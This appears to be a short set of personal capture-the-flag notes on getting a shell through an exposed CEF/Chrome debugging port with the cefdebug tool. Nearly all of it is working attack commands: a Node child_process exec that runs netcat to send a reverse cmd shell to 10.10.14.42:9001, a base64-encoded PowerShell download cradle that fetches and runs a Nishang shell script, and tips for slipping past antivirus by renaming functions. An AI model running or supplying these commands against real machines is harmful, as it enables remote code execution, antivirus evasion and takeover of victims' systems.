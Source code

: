 

## shell cyork

### exploit cefdebug

```bash
# CEFdebug, get shell.
pxc wget https://github.com/taviso/cefdebug/releases/download/v0.2/cefdebug.zip

## scan local machine
.\cef.exe

## get shell
## not work, nc detected by av
.\cef.exe --code "process.mainModule.require('child_process').exec('C:\\windows\\system32\\spool\\drivers\\color\\n.exe 10.10.14.42 9001 -e cmd')" --url ws://127.0.0.1:49900/4385feda-aac1-4c7e-8215-ad3c0a838358

## nishang shell; Delete the help msg and change function name to bypass av
## iconv utf-16LE and base64, deal with the quote things.
echo "IEX(new-object net.webclient).downloadstring('http://10.10.14.42/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

## always test your shell code, especially encoded powershell.
## check the encoded shell 
powershell -enc base64 encoded things

powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==

## works
.\cef.exe --code "process.mainModule.require('child_process').exec('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQAMgAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQAKAA==')" --url  ws://127.0.0.1:17521/143e873e-4592-4a72-8765-27d20b778fc0

## rlwrap nc ; check rlwrap later

```

 

Unknown error, revert works.
